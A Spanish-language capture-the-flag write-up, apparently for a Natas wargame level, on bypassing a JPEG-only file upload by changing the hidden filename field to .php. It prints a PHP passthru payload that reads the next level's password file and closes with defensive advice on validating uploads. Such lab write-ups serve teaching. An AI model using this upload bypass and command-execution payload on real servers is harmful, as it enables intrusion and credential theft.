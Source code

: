 Al entrar al nivel vemos el mensaje `Choose a JPEG to upload (max 1KB):` junto con un formulario para subir un archivo, analizando el código vemos que se asigna un nombre de archivo aleatorio con terminación **.jpg** al archivo que subamos.

Cambiando la terminación del archivo podemos ejecutar código arbitrario desde la página, así que cargamos un archivo [script.php]() que muestre el contenido del archivo de contraseña:
```php
<?php
passthru("cat /etc/natas_webpass/natas13");
```

Una vez cargado, abrimos el Inspector en Chrome y modificamos el valor de `filename` en el formulario, cambiando la terminación a **.php**:
```html
<input type="hidden" name="filename" value="sbds37c38u.php">
```

Al dar clic en `Upload File` se nos mostrará el mensaje:
```
The file upload/sbds37c38u.php has been uploaded
```

Damos clic en el enlace al archivo y se muestra la contraseña del nivel siguiente.

---
## **Conclusión**

El desafío demuestra las vulnerabilidades de subida de archivos en aplicaciones web y la importancia de implementar controles estrictos, como:
* Validación del tipo de archivo tanto en el cliente como en el servidor.
* Restricciones de contenido para evitar la ejecución de código malicioso.
* Almacenamiento fuera de directorios accesibles públicamente.

---
-,"  
[_P
